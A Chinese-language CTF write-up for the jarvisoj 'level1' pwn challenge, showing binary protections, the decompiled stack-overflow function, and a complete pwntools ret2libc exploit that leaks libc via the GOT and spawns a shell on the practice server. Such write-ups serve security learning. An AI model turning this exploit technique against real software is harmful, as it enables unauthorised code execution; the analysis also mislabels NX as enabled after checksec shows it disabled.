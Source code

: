 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level1
date: 2022-4-7 09:50:20
permalink: /pages/2e1547494524d1ad
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level1

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level1/level1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

vulnerable_function函数如下：

```c
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  printf("What's this:%p?\n", &buf);
  return read(0, &buf, 0x100u);
}
```

## 思路分析

1. 目前信息：

   - `vulnerable_function`函数存在溢出点
   - No canary found
   - NX enabled
   - No PIE
   - Has RWX segments
2. 思路：
   - 有`RWX`权限，栈上`buf`地址已知，采用`ret2shellcode`
2. 问题
   - 本地环境与远程环境不同，远程不回显无法得到`buf`地址，最终采用`ret2libc`做法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level1/level1'
elf = ELF(pwnfile)
io = remote("node4.buuoj.cn", 25274)
# io = process(pwnfile)
padding = 0x88+4
write_plt = elf.plt['write']
read_got = elf.got['read']
main_addr = elf.symbols['main']
payload = flat(['a'*padding, write_plt, main_addr, 1, read_got, 4])
io.send(payload)
leak_read_addr = u32(io.recv(4))
libc = LibcSearcher('read', leak_read_addr)
libc_base = leak_read_addr-libc.dump('read')
system_addr = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system_addr, 0xdeadbeef, bin_sh])
io.send(payload)
io.interactive()
```

